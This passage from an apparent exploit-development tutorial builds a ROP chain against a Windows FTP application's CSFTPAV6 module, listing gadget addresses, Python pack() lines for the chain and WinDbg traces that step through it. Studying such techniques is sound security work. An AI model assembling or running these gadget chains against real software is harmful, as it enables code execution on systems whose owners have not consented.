 We could put the 0x1C value on the stack as part of our overflowing buffer and then pop that value into another register of our choice using a gadget. This would allow us to subtract the two registers (esi and the register that stores 0x1c) and get the desired address.

**Note:** As we are going to perform arithmetic opertion with registers, we should dump the value in `esi` to `eax` or `ecx` as these registers commonly use these operations. The number of gadgets that we will find will be much higher.
The idea is to have a gadget put a copy of ESI into EAX, then pop the negative value into ECX from the stack. Next, we add ECX to EAX, and finally, copy EAX back into ESI.
One gadget that would be valid is:
```
0x5050118e: mov eax, esi ; pop esi ; ret  ;  (1 found)
```

The thing is that this gadgets perform an additional `pop esi` instruction, which means that we will need to add an additional DWORD in the stack for this instruction.
We will do it like this:
```
rop = pack("<L", (0x5050118e)) # mov eaax, esi; pop esi; retn
rop += pack("<L", (0x42424242)) # junk for the pop esi value
```
**Note:** Usually, when debugging gadgets in our program, put a breakpoint at the gadget address you want to debug, or at the address of the first gadget in the chain. This way you skip the previous analysis, and go direcly to the gadget.  We let the execution go to the end of the first gadget with the pt command and finish its execution with the p command.

If we debug this gadget, we will find that `eax` will contain the value in `esi` (nice) and that `esi` has the dummy value (we don't care about `esi` anymore as our value is now in `eax`, which is better for arithmetic gadgets). 
Let's see this gadget on debugging:
```c
0:077> p
eax=00000000 ebx=05aec298 ecx=0185ca60 edx=77042da0 esi=0185e30c edi=00000000
eip=5050118e esp=0185e310 ebp=51515151 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
CSFTPAV6+0x118e:
5050118e 8bc6            mov     eax,esi
0:077> p
eax=0185e30c ebx=05aec298 ecx=0185ca60 edx=77042da0 esi=0185e30c edi=00000000
eip=50501190 esp=0185e310 ebp=51515151 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
CSFTPAV6+0x1190:
50501190 5e              pop     esi
0:077> p
eax=0185e30c ebx=05aec298 ecx=0185ca60 edx=77042da0 esi=42424242 edi=00000000
eip=50501191 esp=0185e314 ebp=51515151 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
CSFTPAV6+0x1191:
50501191 c3              ret
0:077> dd eax
0185e30c  5050118e 42424242 43434343 43434343
0185e31c  43434343 43434343 43434343 43434343
0185e32c  43434343 43434343 43434343 43434343
```
As seen, `esi` contains our dummy value on top of the stack and then `eax` has the original `esi` value (pointer to our original ESP location, the location of the first ROP gadget).
Next, we have to pop the -0x1C value into ECX and add it to EAX. We can use a “POP ECX” instruction to get the negative value into ECX, followed by a gadget containing an “ADD EAX, ECX” instruction. This will allow us to add -0x1C to EAX
Let's search for this gadgets, will probably be pure as they are common operations:
```
0x505115a3: pop ecx ; ret  ;  (1 found)
0x5051579a: add eax, ecx ; ret  ;  (1 found)
```
